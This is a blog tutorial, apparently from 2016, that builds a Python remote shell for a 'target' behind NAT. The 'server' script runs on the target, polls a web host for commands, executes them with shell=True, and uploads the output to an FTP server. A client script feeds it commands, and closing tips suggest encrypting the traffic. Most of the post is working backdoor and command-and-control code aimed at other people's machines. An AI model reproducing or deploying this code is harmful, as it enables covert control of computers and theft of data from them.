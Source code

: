 ```yaml
---
layout: post
title: "Useful Python Scripts: HTTP&FTP Shell"
date: 2016-04-25 18:00:00 +0200
categories: Scripting
tags:
  - scripting
  - shell
  - python
author: Joe Schmoe
---
```


Some people have problems with being unable to port forward, so they can't use reverse shells. Most of the time you can't use a bind shell either, if your target is behind NAT. What do!?  
  
What you can do is use a web server to transfer commands and outputs. Let's do just that!  

## The Server

We will need to use a few libraries:
{ % highlight python linenos % }
import urllib2, ftplib, subprocess, StringIO, time, os
{ % endhighlight % }
- urllib2: For downloading commands.
- ftplib: For uploading output.
- subprocess: For executing commands.
- StringIO: For turning strings into file objects. Why this is needed will be explained later.
- time: For sleeping.
  
Now that we have everything we need let's begin.  
  
{ % highlight python linenos % }
import urllib2, ftplib, subprocess, StringIO, time
while True:
	try:
		command = urllib2.urlopen("http://server.com/input.txt").read()
	except Exception as e:
		print(str(e))
		time.sleep(20)
		
{ % endhighlight % }

Seems pretty simple. We try downloading the input file, containing a command to execute. If there's an exception (No internet connection, input.txt doesn't exist, internet is on fire, etc.), we display it and wait 20 seconds before trying again. Now let's do something with the received command.

{ % highlight python linenos % }
output = StringIO.StringIO(subprocess.check_output(command, shell=True))
{ % endhighlight % }

We'll use subprocess the execute the command and get the output. Then, we will use StringIO to turn the command into a file object. Now let's upload the output to the FTP server.

{ % highlight python linenos % }
ftp = ftplib.FTP("server.com")
ftp.login("username","password")
ftp.storbinary("STOR output.txt",output)
ftp.delete("input.txt")
ftp.quit()
ftp.close()
{ % endhighlight % }

We create an FTP object and login to a server of our choosing. Then, we use the STOR command to store our output as output.txt. ftplib requires the second argument to be a file object, and that's why we needed to use StringIO earlier. After that, we delete the input file since it's no longer needed, and close our connection. The server is done!

{ % highlight python linenos % }
import urllib2, ftplib, subprocess, StringIO, time, os
while True:
	try:
		command = urllib2.urlopen("http://server.com/input.txt").read()
		output = StringIO.StringIO(subprocess.check_output(command, shell=True))
		ftp = ftplib.FTP("server.com")
		ftp.login("username","password")
		ftp.storbinary("STOR output.txt",output)
		ftp.delete("input.txt")
		ftp.quit()
		ftp.close()
	except Exception as e:
		print str(e)
		time.sleep(20)
{ % endhighlight % }

**The Client**

The client is very analogous to the server, so I don't think there's much to explain.

{ % highlight python linenos % }
import urllib2, ftplib, time
while True:
	try:
		command = StringIO.StringIO(raw_input())
		
		ftp = ftplib.FTP("server.com")
		ftp.login("username","password")
		ftp.storbinary("STOR input.txt",command)
		try: ftp.delete("output.txt")
		except: pass
		ftp.quit()
		ftp.close()
		while True:
			try:
				output = urllib2.urlopen("http://server.com/output.txt").read()
				break
			except:
				time.sleep(5)
				continue
			
		print output
	except Exception as e:
		print str(e)
{ % endhighlight % }

We get the command and turn it into a file object, upload it, and delete the previous output (The try/except is there because if output.txt doesn't exist ftplib raises an exception). Then we try reading the output every 5 seconds, and print it when we succeed.


Some suggestions for improving the script:
- Make it use HTTP/FTP only.
- Encrypt data before sending it.
- You need to append "cd <directory>" before every command, because subprocess always uses the current directory. Perhaps you can make the script change the current working directory?
- Show current directory and a prompt.


Hope you enjoyed this article!  
Joe Schmoe
